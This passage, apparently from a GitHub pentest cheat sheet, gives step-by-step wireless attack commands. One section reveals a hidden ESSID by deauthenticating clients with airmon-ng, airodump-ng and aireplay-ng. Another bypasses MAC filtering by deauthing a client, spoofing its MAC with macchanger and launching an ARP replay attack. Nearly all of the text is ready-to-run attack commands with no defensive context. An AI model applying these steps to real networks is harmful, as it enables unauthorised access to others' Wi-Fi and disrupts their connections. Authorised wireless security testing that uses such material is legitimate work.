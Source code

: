 ```
sudo airmon-ng start <wireless card>
```

Monitor access point.

```
sudo airodump-ng <monitor wireless card>
```

Detect the BSSID of the hidden ESSID that you are targeting, rerun the scan specifying that BSSID and the channel.

```
sudo airodump-ng -c <channel> --bssid <bssid> <monitor wireless card>
```

Now you can deauth a device.

```
sudo aireplay-ng -0 15 -c <client bssid> -a <access point bssid> <monitor wireless card>
```

## Bypass MAC Filtering<a name="BypassMAC"></a>

Set your wirelss card in monitor mode.

```
sudo airmon-ng start <wireless card>
```

Monitor access point.

```
airodump-ng -c <channel> --bssid <bssid> -w <output file> <monitor wireless card>
```

Deauthenticate a client and remember his MAC address.

```
aireplay-ng -0 0 -a <BSSID> -c <Client> <monitor wireless card>
```

Shutdown you'r monitor interface.

```
ifconfig <monitor wireless card> down
```

Attribute the Client MAC address to your wireless card.

```
macchanger --mac <deauthed client MAC address> <monitor wirelss card>
```

Power up you'r wireless card.

```
ifconfig <monitor wireless card>
```

Launch you'r attack using the stolen MAC address. ARP Replay request in this case.
